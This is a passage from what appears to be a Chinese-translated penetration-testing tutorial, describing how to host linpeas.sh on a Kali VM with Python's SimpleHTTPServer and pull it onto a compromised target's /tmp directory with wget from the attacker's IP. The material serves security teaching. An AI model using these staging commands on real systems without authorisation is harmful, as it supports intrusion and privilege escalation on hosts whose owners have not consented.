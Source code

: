 ## 文件传输

要将`linpeas.sh`文件传输到目标系统，我们需要在 Kali VM 上设置一个 Web 服务器来托管该文件。这将允许我们在目标系统上下载该文件。可以按照以下步骤操作：

1.  要在 Kali VM 上设置 Web 服务器，我们可以利用`SimpleHTTPServer` Python 模块来提供该二进制文件。可以通过在存储`linpeas.sh`二进制文件的目录中运行以下命令来完成此操作：

    `sudo python -m SimpleHTTPServer 80`

    注意

    `SimpleHTTPServer`是一个适用于 Python 2 的 Python 模块，Python 3 中也有可用的`http.server`模块。

    如下图所示，`SimpleHTTPServer`模块将会在 Kali VM 的 IP 地址上通过端口`80`提供该目录中的文件：

    ![图 12.5 – SimpleHTTPServer linpeas    ](img/B17389_12_005.jpg)

    图 12.5 – SimpleHTTPServer linpeas

1.  要在目标系统上下载`linpeas.sh`文件，我们可以利用`wget`工具。然而，在下载二进制文件之前，我们需要导航到一个具有读写权限的目录。在这种情况下，我们将导航到临时目录，如下图所示：![图 12.6 – Linux 临时目录    ](img/B17389_12_006.jpg)

    图 12.6 – Linux 临时目录

1.  现在我们可以使用`wget`工具将文件从 Kali VM 下载到我们的目标系统。可以通过在目标系统上运行以下命令来完成此操作：

    `wget http://<KALI-VM-IP>/linpeas.sh`

    输出如下截图所示：

![图 12.7 – wget linPEAS](img/B17389_12_007.jpg)
